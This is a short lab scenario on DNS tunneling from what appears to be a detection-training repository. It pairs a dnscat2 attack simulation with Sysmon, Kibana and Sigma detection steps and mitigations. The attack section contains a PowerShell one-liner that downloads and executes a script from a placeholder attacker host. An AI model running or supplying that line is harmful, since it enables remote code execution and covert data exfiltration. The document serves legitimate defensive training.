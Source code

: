 # 🛡️ Scenario 4: DNS Tunneling

## 🎯 Objective

Simulate and detect covert data exfiltration via DNS queries.

---

## 🧪 Attack Simulation with dnscat2

### ✅ On Attacker (Kali)

```bash
dnscat2-server
```

### ✅ On Victim

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://<attacker_ip>/dnscat.ps1')
```

---

## 📊 Detection

### 🧠 Sysmon Event ID

| Event ID | Description             |
|----------|--------------------------|
| 3        | Network connection       |

---

## 🔍 Kibana Query

```kql
winlog.event_id:3 AND dns.question.name.keyword: "*.*"
dns.question.name.keyword: /[a-z0-9]{30,}\./
```

---

## 📘 Sigma Rule

[DNS Tunneling Detection](https://github.com/SigmaHQ/sigma/blob/master/rules/network/dns/snort_apt_dns_tunneling.yml)

---

## 🛡️ Mitigation

- Block long or unknown DNS domains.
- Use DNS firewall and Zeek for inspection.
